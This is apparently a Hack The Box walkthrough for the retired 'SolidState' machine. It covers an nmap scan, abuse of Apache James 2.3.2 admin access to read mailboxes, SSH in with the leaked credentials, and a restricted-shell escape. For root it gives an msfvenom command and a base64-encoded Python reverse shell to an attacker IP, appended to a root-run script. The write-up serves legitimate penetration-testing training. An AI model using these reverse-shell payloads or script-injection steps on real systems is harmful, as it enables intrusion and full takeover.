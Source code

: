 ```yaml
---
layout: post
title: "HTB-SolidState"
categories: HTB-Walkthrough
---
```



![solidstate](/assets/img/solidstate/solidstate.png)

SolidState is another OSCP-like box from the HTB 'retired' archive.

<h4>Nmap</h4>

`nmap -sV -Pn 10.10.10.51 |tee -a solid.txt`

```

Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-28 17:07 EST
Warning: 10.10.10.51 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.10.51
Host is up (0.097s latency).
Not shown: 65469 closed ports, 60 filtered ports
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        JAMES smtpd 2.3.2
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.20 seconds

```

After googling 'exploit james 2.3.2' I hit upon a method...and possible [exploit](https://www.exploit-db.com/exploits/35513)


First use telnet to access James Remote Admin

![james-admin](/assets/img/solidstate/solidstate-james-admin1.png)

Now to check each mailbox for loot.

![mailbox-loot](/assets/img/solidstate/solid-mailbox-loot.png)

![mailbox-loot2](/assets/img/solidstate/solid-mailbox-loot2.png)

![mailbox-loot3](/assets/img/solidstate/solid-mailbox-loot3.png)

<hr width="250" size="6">


This information, allows us to gain access to Mindy's user account.

`ssh mindy@10.10.10.51`


```

root@kali:~/HTB/retired/solidstate# ssh mindy@10.10.10.51
The authenticity of host '10.10.10.51 (10.10.10.51)' can't be established.
ECDSA key fingerprint is SHA256:njQxYC21MJdcSfcgKOpfTedDAXx50SYVGPCfChsGwI0.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.51' (ECDSA) to the list of known hosts.
mindy@10.10.10.51's password: 
Linux solidstate 4.9.0-3-686-pae #1 SMP Debian 4.9.30-2+deb9u3 (2017-08-06) i686

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 22 14:00:02 2017 from 192.168.11.142
mindy@solidstate:~$ ls
bin  user.txt
mindy@solidstate:~$ cat user.txt
91xxxxxxxxxxxxxxxxxxxxxxxxxxxx75
mindy@solidstate:~$ 

```

mindy has a very restricted shell.....so I try build up the available commands...

```

BASH_CMDS[ls]=/bin/ls
BASH_CMDS[uname]=/bin/uname
BASH_CMDS[nano]=/bin/nano
BASH_CMDS[cat]=/bin/cat

```

The shell is restricted but we can get around this with the james.py exploit
which will give us better shell.


```

#!/usr/bin/python
#
# Exploit Title: Apache James Server 2.3.2 Authenticated User Remote Command Execution
# Date: 16\10\2014
# Exploit Author: Jakub Palaczynski, Marcin Woloszyn, Maciej Grabiec
# Vendor Homepage: http://james.apache.org/server/
# Software Link: http://ftp.ps.pl/pub/apache/james/server/apache-james-2.3.2.zip
# Version: Apache James Server 2.3.2
# Tested on: Ubuntu, Debian
# Info: This exploit works on default installation of Apache James Server 2.3.2
# Info: Example paths that will automatically execute payload on some action: /etc/bash_completion.d , /etc/pm/config.d

```
We run the exploit, and get a better shell as mindy.



<h3>Privilege Escalation</h3>

found /opt/tmp.py

we cannot replace, but we can append to it...

```

msfvenom -p cmd/unix/reverse_python lhost=10.10.14.19 lport=443 -a cmd -e generic/none --platform unix

```

```

echo "exec('aW1wb3J0IHNvY2tldCAgICwgIHN1YnByb2Nlc3MgICAsICBvcyAgOyAgICAgICAgIGhvc3Q9IjEwLjEwLjE0LjE5IiAgOyAgICAgICAgIHBvcnQ9NDQzICA7ICAgICAgICAgcz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVUICAgLCAgc29ja2V0LlNPQ0tfU1RSRUFNKSAgOyAgICAgICAgIHMuY29ubmVjdCgoaG9zdCAgICwgIHBvcnQpKSAgOyAgICAgICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICwgIDApICA7ICAgICAgICAgb3MuZHVwMihzLmZpbGVubygpICAgLCAgMSkgIDsgICAgICAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAsICAyKSAgOyAgICAgICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))" >> /opt/tmp.py

```


set listener ....
`nc -nlvp 443`

....and wait....


```

root@kali:~/HTB/retired/solidstate# nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.10.51] 48652
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
cat /root/root.txt
b4xxxxxxxxxxxxxxxxxxxxxxxxxxxxc9
hostname
solidstate


```

:)
